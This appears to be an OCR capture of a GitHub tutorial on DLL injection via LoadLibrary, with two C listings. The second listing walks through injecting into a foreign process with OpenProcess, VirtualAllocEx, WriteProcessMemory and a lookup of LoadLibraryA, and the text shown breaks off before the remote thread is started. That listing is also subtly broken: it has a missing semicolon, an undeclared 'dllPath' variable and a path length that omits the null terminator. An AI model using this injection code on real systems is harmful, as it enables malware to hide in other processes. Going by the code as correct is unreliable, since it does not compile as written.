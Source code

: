 # DLL Injection

## LoadLibrary

LoadLibrary is a widely utilized method for DLL injection

```c
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary to load a DLL into the current process
    HMODULE hModule = LoadLibrary("example.dll");
    if (hModule == NULL) {
        printf("Failed to load example.dll\n");
        return -1;
    }
    printf("Successfully loaded example.dll\n");

    return 0;
}
```

The first example shows how LoadLibrary can be used to load a DLL into the current process legitimately.

```c
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary for DLL injection
    // First, we need to get a handle to the target process
    DWORD targetProcessId = 123456 // The ID of the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
    if (hProcess == NULL) {
        printf("Failed to open target process\n");
        return -1;
    }

    // Next, we need to allocate memory in the target process for the DLL path
    LPVOID dllPathAddressInRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (dllPathAddressInRemoteMemory == NULL) {
        printf("Failed to allocate memory in target process\n");
        return -1;
    }

    // Write the DLL path to the allocated memory in the target process
    BOOL succeededWriting = WriteProcessMemory(hProcess, dllPathAddressInRemoteMemory, dllPath, strlen(dllPath), NULL);
    if (!succeededWriting) {
        printf("Failed to write DLL path to target process\n");
        return -1;
    }

    // Get the address of LoadLibrary in kernel32.dll
    LPVOID loadLibraryAddress = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (loadLibraryAddress == NULL) {
        printf("Failed to get address of LoadLibraryA\n");
        return -1;
    }

```